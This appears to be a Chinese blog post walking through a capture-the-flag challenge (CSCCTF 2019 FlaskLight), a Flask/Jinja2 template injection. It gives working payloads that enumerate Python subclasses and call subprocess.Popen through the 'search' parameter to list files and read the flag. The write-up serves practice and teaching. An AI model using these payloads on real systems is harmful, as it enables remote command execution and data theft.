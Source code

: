 ```yaml
---

title: 日常练习37

date: 2021-07-25 08:43:34

tags: 练习

categories: test87

---
```

今天是一个ssti注入题目，比较简单，算是一个知识点的扩充。  

# [CSCCTF 2019 Qual]FlaskLight  

打开题目，f12可以看到提示：  

[![](https://pic.imgdb.cn/item/60fcb5745132923bf81a85fa.png)](https://pic.imgdb.cn/item/60fcb5745132923bf81a85fa.png)  

让我们get方式传参，变量名使search。我们直接传{ {7*7} }，测试是不是ssti注入。  

[![](https://pic.imgdb.cn/item/60fcb5f15132923bf81c5386.png)](https://pic.imgdb.cn/item/60fcb5f15132923bf81c5386.png)   

确实是ssti注入，接下来就是按照流程走一遍。但是这道题有点不一样的就是要利用

	{{''.__class__.__mro__[2].__subclasses__()}}

爆出所有类。原理暂且不知，先把他当作一个知识点。  

[![](https://pic.imgdb.cn/item/60fcb6c45132923bf81f680c.png)](https://pic.imgdb.cn/item/60fcb6c45132923bf81f680c.png)

然后就是找到可用的类。这里我们找的是subprocess.Popen这个类，然后进行构造payload来命令执行。  
 
	?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls',shell=True,stdout=-1).communicate()[0].strip()}}
	?search={{''.__class__.__mro__[2].__subclasses__()[258]('ls /flasklight',shell=True,stdout=-1).communicate()[0].strip()}}
	?search={{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}

关于这个payload有很多构造方式，网上也有很多形式，可以慢慢积累。  

# 小结  

总的来说这是一道中规中矩的ssti题目，解题流程没怎么变，重点还是这个找所有类的不同方法，算是一个小技巧吧。